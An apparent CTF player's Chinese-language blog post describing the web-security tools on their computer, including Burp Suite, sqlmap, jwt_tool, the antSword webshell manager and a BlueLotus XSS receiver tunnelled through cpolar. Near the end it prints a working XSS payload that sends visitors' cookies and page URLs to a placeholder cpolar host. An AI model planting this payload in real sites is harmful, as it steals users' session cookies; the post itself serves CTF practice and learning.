


本文的作用是使 Ether 小姐更加熟悉她电脑上的工具，嘻嘻
Burp Suite
当当当当！首先就是伟大的 bp啦，功能非常之强大
安全工具 | BurpSuite安装使用（保姆级教程！)-CSDN博客
可以抓包改包、爆破、数据外带等等
SwitchyOmega
一个浏览器，主要用来配合 Burp Suite使用，使 bp 只代理浏览器而不影响系统
Hackbar
这也是一个浏览器插件，主要用于发包到网页
dirsearch
轻量级目录爆破工具，支持多线程、自定义字典、状态码过滤，常用于发现隐藏路径、备份文件、管理后台等。（PS：好官方）
反正就是没思路就上dirsearch扫一下
GitHacker-main
从泄露的 .git 目录恢复源码，用于源码审计与敏感信息挖掘。
注：Linux环境下使用
cpolar
内网穿透工具，将本地服务（如 Burp Collaborator、HTTP Server）暴露到公网，用于 DNS/OOB 回显、CSRF 带外测试等。
1 | cpolar http 80 //用于连接本地网页 |
JWT
c-jwt-cracker
暴力破解 HS256 密钥
注：Linux环境下使用
jwt_tool
支持签名伪造、密钥爆破、头部篡改、算法降级（如 none 攻击），是 JWT 审计必备。
注：<font style="color:#DF2A3F;">Linux</font>环境下使用
antSword
轻量级 WebShell 管理工具（支持 ASP/PHP/JSP 等），用于后渗透阶段控制；
文件上传后，连服务器用的


SQLmap
SQLmap 是一款开源的自动化 SQL 注入检测与利用工具，能自动识别各种数据库（MySQL/Oracle/PostgreSQL等）的注入点，并且可以一键完成从发现漏洞到提取数据、甚至获取系统权限的全流程。
以下是一些常用命令：
1 | # 1. 检测「注入点」 |
Docker
用于快速部署靶场、隔离测试环境（如运行 DVWA、WebGoat、Juice Shop），避免污染本机系统。
用于写web的附件题和赛后复现
phpStudy_64
一键集成 PHP/MySQL/Apache 环境，快速部署漏洞靶机
关于MD5
hash-ext-attack-master
实现哈希长度扩展攻击（如对 sha1(secret+data) 类签名伪造）。
注：Linux环境下使用
fastcoll
生成 MD5 碰撞文件（学术/红队用途，演示“相同哈希不同内容”风险）。
注：Linux环境下使用
md5解密
本地 MD5 破解工具（字典/彩虹表比对），适用于弱口令哈希验证（非真解密）。
VMware
对于我来说主要用于配置 Linux 环境
因为Linux无法复制粘贴，
在 PowerShell或CMD里输入：
1 | ssh 你的用户名@你的端口号 |
就可以在 Windows 系统使用 Linux 了
然后我是使用的共享文件夹来使用工具，具体命令：
1 | # 1. 创建挂载点（如果不存在） |
随波逐流
伟大的编码解码工具
Bluelotus
由清华大学蓝莲花战队开发的XSS接收工具
不过要先在小皮面板配置好才可以使用
注意：使用时cpolar也需要打开，用于开启隧道
1 | cpolar http 80 |
最后记得把 payload 里的接收地址改成 cpolar 给的公网地址（比如 https://xxxx.cpolar.cn）
例如：
1 | <script>var website="https://xxxx.cpolar.cn/xss/";(function(){(new Image()).src=website+'/?keepsession=1&location='+escape((function(){try{return document.location.href}catch(e){return''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return''}})())+'&opener='+escape((function(){try{return(window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})();</script> |
最后贴几个我常用的网站
锤子在线工具网 - 首页
核心功能：
- 编码/解码：Base64、URL、Hex、Unicode、HTML 实体等一键互转。
- 哈希计算：MD5、SHA1/256、NTLM 等哈希值生成与识别。
- Payload 生成：SQL 注入、XSS、命令注入等常用 payload 模板。
- 网络工具：端口扫描、Whois 查询、IP 归属地等。
JSON在线 | JSON解析格式化—SO JSON在线工具
核心功能：
- JSON 处理：格式化、压缩、校验、JSON 转 CSV/Excel/Java 实体类。
- 加密解密：AES、DES、RSA、SM2/3/4（国密）等对称/非对称加密在线计算。
- 正则测试：实时匹配高亮，支持常用正则模板。
- 时间戳转换：Unix 时间戳与日期互转。
JSON Web Tokens - jwt.io
核心功能：
- 令牌解析：粘贴 JWT 自动解码 Header、Payload、Signature 三部分。
- 签名验证：输入密钥可验证签名是否有效，支持 HS256/RS256 等主流算法。
- 令牌生成：修改 Payload 后自动生成新令牌（需已知密钥）。
- 库文档：提供各语言 JWT 库的官方文档链接。
DNSLog Platform
这是一个DNS 日志接收平台，专门用于验证无回显的安全漏洞。